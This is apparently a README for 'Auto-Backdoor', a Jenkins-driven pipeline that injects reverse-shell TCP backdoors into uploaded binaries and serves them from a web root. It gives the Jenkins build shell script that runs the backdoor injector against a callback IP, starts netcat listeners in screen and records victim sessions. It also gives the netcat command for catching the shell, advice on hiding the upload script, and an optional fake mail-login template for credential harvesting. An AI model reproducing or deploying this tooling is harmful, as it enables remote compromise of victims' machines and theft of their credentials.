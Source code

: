 # Auto-Backdoor
Need a jenkins server running, on it make a build, this build needs to be paramatized with the following text pramaters

`dir` 
`Payload_Type`
`port`
`IP`
`binName`


Usage: `python abd.py $BINARY $PLACE TO UPLOAD / DOWNLOAD $PUT SCRIPT LOCATION $JENKINS URL $Jenkins token $Jenkins project location $0 for linux $not used yet, always 0 $Backdoor callback port $backdoor callback ip / domain name`


##Jenkins configuration:

Standord jenkins build, easiest to change jenkins user to be same as www root if on save server (on ubuntu it is www-data, guide: http://blog.manula.org/2013/03/running-jenkins-under-different-user-in.html )
Need to edit the following in jenkins:


1. Make it a pramatrised build with the following
⋅⋅1 dir
⋅⋅2 Payload_Type
⋅⋅3 port		(Note: For shell call back)
⋅⋅4 IP		(Note: For shell call back)	
⋅⋅5 binName
2. Check allow simotaius builds
3. Set allow remote triggred with a token
4.s Build shell with following:

```
rp=$(expr 1024 + $BUILD_NUMBER) #make it a port that is non-reserved and non-taken, should exclude 8080 and a few others
echo $rp
cp /in/$dir .
backdoor -f $dir -P $rp -H $IP -s reverse_shell_tcp
cp backdoored/$dir /var/www/html/out/$dir
echo "\nPutting $rp session //need ip address from victom here" >> /var/www/html/list_screens_go_to_what
## NEED SCREEN AND netcat-openbsd packages (sudo apt-get install netcat-openbsd) as default nc does not have the -k flag
screen -S L_$rp -d -m \'nc -lnvkp $rp\'
#screen -ls #debugging
```

##PHP Configuration:
I use apache2 with PHP5
`sudo apt-get install apache2 libapache2-mod-php5 php5-cgi`
move the put.php into /var/www/html/ and change the name to something that would not be susspisus
if you want there is a basic template for making it look like a mail login, with cred harvesting, move everything in mail/ to /var/www/html
edit `/etc/apache2/sites-enabled/000-default.conf` and add `DirectoryIndex index.php` to index.php
	
##To get shell back:
	nc -lnvp $Backdoor Port #wait for shell

For help email ABD@rahartshorn.com

--
Robert Hartshorn

